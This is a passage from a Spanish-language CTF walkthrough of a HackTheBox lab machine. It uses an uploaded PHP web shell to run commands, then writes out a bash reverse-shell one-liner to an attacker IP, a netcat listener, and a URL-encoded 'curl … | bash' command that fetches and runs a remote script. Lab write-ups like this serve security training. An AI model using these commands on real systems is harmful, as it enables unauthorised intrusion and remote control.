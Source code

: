Ahora vamos a la web accedemos a nuestro archivo shell.php.

Vamos a ejecutar el comando whoami en cubo s3:
```url
http://thetoppers.htb/shell.php?cmd=whoami
```
Nos encontramos como www-data.

![img](/assets/img/post/three/data.png)

Vamos a tratar de montarnos nuestra reverse shell.

creamos un archivo .sh, con lo siguiente:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.57/1337 0>&1
```
Este es el clasico oneliner que usamos siempre, le colocamos nuestra ip de atacante, por el puerto 1337.

Ahora con netcat, nos ponemos en escucha por ese puerto.

```bash
nc -nvlp 1337
```

Nos montamos nuestro servidor en python, por el puerto 8000:

```bash
python3 -m http.server 8000
```

Abrimos el burpsuite y urlencodeamos el parametro que le pasaremos a la web.

![img](/assets/img/post/three/encode.png)

Luego lo agregamos a nuestro parametro 'cmd=', quedaria de la siguiente manera:

```text
http://thetoppers.htb/shell.php?cmd=%63%75%72%6c%20%31%30%2e%31%30%2e%31%34%2e%38%38%3a%38%30%30%30%2f%73%68%65%6c%6c%2e%73%68%20%7c%20%62%61%73%68
```
